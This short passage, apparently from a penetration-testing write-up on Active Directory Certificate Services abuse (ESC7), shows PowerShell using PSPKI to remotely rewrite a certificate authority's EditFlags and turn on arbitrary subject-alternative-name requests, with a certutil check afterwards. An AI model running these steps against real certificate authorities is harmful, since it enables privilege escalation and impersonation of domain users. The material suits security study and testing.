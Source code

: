 <img src="/images/2022-09-16/ESC7_recon1.png">  


### Exploitation  

If a user has the ``Manage CA`` rights, he can remotely edit the ``EDITF_ATTRIBUTESUBJECTALTNAME2`` - aka [ESC6](#esc6) - to be able to specify a SAN for **ALL** authentication templates afterwards.  

#### PSPKI  

```
# Get the current value of ``EDITF_ATTRIBUTESUBJECTALTNAME2``, modify it and check again
$configReader = New-Object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerD "dc2016-2.mcafeelab.local"
$configReader.SetRootNode($true)
$configReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
$configReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")

# Verify with certutil
certutil.exe -config "CA.domain.local\CA" -getreg "policy\EditFlags"
```
